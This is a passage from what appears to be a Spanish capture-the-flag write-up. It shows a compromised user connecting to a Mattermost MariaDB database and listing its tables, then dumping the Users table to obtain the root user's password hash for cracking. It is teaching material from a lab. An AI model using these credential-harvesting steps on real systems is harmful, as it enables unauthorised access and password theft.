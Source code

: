 Al listar las **bases de datos**, hay una que se llama como el servicio, por lo que podemos listarla para ver qué **tablas** contiene.

```sql
maildeliverer@Delivery:/opt/mattermost/config$ mysql -u  mmuser -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 87
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mattermost         |
+--------------------+
2 rows in set (0.000 sec)

MariaDB [(none)]> USE mattermost
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [mattermost]> 
```

```bash
MariaDB [mattermost]> SHOW TABLES;
+------------------------+
| Tables_in_mattermost   |
+------------------------+

| Threads                |
| Tokens                 |
| UploadSessions         |
| UserAccessTokens       |
| UserGroups             |
| UserTermsOfService     |
| Users                  |
+------------------------+
```

Dentro de esta, hay una tabla llamada **Users**, por lo que podemos listar su contenido y ver toda la información, incluyendo **usuarios** y **contraseñas** hasheadas. Con esto en mente, podemos tomar como objetivo la del usuario llamado **root** y lanzar el ataque.

```sql
MariaDB [mattermost]> select * from Users;
+----------------------------+---------------+---------------+----------+----------------------------------+--------------------------------------------------------------+----------+-------------+-------------------------+---------------+----------+--------------------+----------+----------+--------------------------+----------------+-------+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------+-------------------+----------------+--------+--------------------------------------------------------------------------------------------+-----------+-----------+
```